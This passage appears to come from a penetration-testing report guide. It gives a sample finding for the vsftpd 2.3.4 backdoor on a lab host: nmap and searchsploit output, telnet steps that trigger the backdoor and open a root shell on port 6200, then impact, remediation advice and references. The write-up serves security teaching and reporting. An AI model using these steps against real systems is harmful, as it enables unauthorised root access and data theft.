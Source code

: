 ```
```
$ nmap -sV -p 21 192.168.56.102

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

$ searchsploit vsftpd 2.3.4
exploits/unix/remote/49757.py
```

### Proof of Concept
```bash
# Connect to FTP
telnet 192.168.56.102 21

# Send backdoor trigger
USER anonymous:)
PASS password

# Connect to backdoor
telnet 192.168.56.102 6200
# Command shell obtained
```

### Impact
An attacker can gain complete control of the system with root privileges. This allows:
- Complete data exfiltration
- System modification
- Pivot to other systems
- Installation of persistent backdoors
- Service disruption

Business Impact:
- Confidentiality: High - All data accessible
- Integrity: High - System can be modified
- Availability: High - System can be crashed

### Recommendation
**Immediate Actions:**
1. Immediately disable the FTP service
2. Disconnect the system from the network
3. Perform incident response procedures
4. Check logs for signs of compromise

**Long-term Solutions:**
1. Update vsftpd to version 3.x or later
2. If FTP is not required, disable the service permanently
3. If FTP is required, consider SFTP as alternative
4. Implement network segmentation to limit FTP access
5. Deploy IDS/IPS to detect exploitation attempts
6. Regular security assessments and patch management

### References
- https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- https://www.exploit-db.com/exploits/49757
- https://security.appspot.com/vsftpd.html
```

---

## 8.2 Evidence Documentation

### Organize Evidence

**Directory Structure:**
```